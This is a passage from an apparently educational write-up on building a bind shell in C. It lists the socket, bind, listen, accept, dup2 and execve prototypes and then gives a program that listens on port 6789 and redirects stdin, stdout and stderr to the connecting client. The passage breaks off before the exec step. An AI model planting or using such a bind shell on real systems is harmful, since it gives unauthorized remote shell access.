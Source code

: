 The beginning of any socket programming is establishing a socket so I started by looking up the man page of this system call. Based on reading through the man pages I was able to piece together what calls would need to be made in order to establish a listening connection on a specific port.

The prototypes of the functions that we will want to call are in the following order below (with the man page link referenced):
```c
/* http://man7.org/linux/man-pages/man2/socket.2.html */
int socket(int domain, int type, int protocol);
/* http://man7.org/linux/man-pages/man2/bind.2.html */
int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
/* http://man7.org/linux/man-pages/man2/listen.2.html */
int listen(int sockfd, int backlog);
/* http://man7.org/linux/man-pages/man2/accept.2.html */
int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
/* http://man7.org/linux/man-pages/man2/dup.2.html */
int dup2(int oldfd, int newfd);
/* http://man7.org/linux/man-pages/man2/execve.2.html */
int execve(const char *filename, char *const argv[], char *const envp[]);
/* http://man7.org/linux/man-pages/man2/close.2.html */
int close(int fd);
```

I wrote the following C program that creates this bind shell and compiled and ran it to confirm it functions properly.

```c
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>

#define NULL 0

int socket(int domain, int type, int protocol);
int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
int listen(int sockfd, int backlog);
int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
int dup2(int oldfd, int newfd);
int close(int fd);
int execve(const char *filename, char *const argv[], char *const envp[]);

int main() {
    int port = 6789;

    /* this creates a new socket but it has no address assigned to it yet */
    int sockfd = socket(AF_INET /* 2 */, SOCK_STREAM /* 1 */, 0);

    /* create sockaddr structure for use with bind function */
    struct sockaddr_in hostaddr;
    hostaddr.sin_family = AF_INET;
    hostaddr.sin_port = htons(port);
    hostaddr.sin_addr.s_addr = htonl(INADDR_ANY);
    
    /* bind socket to ip/port */
    bind(sockfd, (struct sockaddr*)&hostaddr, sizeof(struct sockaddr_in));

    /* listen for connections */
    listen(sockfd, 1);

    /* accept connection */
    int clientfd = accept(sockfd, NULL, NULL);

    /* duplicate file descriptors for STDIN/STDOUT/STDERR */
    for (int n = 0; n <= 2; ++n) {
        dup2(clientfd, n);
```
